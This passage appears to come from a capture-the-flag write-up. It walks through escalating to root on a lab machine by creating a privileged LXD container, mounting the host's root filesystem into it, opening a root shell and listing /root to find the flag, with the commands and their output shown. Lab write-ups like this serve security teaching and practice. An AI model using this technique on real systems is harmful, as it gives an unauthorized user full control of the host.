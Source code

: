 Now, we need to set up the image:

```
$ lxc init myimage mycontainer -c security.privileged=true

$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

$ $ lxc list                      
+-------------+---------+------+------+-----------+-----------+                                                      
|    NAME     |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |                                                                                                                                                                            
+-------------+---------+------+------+-----------+-----------+                                                      
| mycontainer | STOPPED |      |      | CONTAINER | 0         |                                                                                                                                                                            
+-------------+---------+------+------+-----------+-----------+   

```

Finally, we can start the container, and get a root shell:

```
$ lxc start mycontainer

$ lxc exec mycontainer /bin/sh

~ # ^[[30;5Rid                                                                                                   
uid=0(root) gid=0(root)  
```

Since we mounted our file system on the alpine images /mnt/root, we can grab the flag:

```
~ # ^[[60;5Rls -lah /mnt/root/root
ls -lah /mnt/root/root
total 40K    
drwx------    6 root     root        4.0K Jun 16 13:59 .
drwxr-xr-x   20 root     root        4.0K May 19 10:28 ..
lrwxrwxrwx    1 root     root           9 May 21 20:30 .bash_history -> /dev/null
-rw-r--r--    1 root     root        3.0K Dec  5  2019 .bashrc
drwx------    2 root     root        4.0K May 19 22:23 .cache
drwxr-xr-x    3 root     root        4.0K May 19 11:50 .local
-rw-r--r--    1 root     root         161 Dec  5  2019 .profile
-rw-r--r--    1 root     root          66 May 21 13:46 .selected_editor
drwx------    2 root     root        4.0K Jun 16 14:00 .ssh
-rw-r--r--    1 root     root          33 Jun 26 16:08 root.txt
drwxr-xr-x    3 root     root        4.0K May 19 10:41 snap
```

There's our flag!



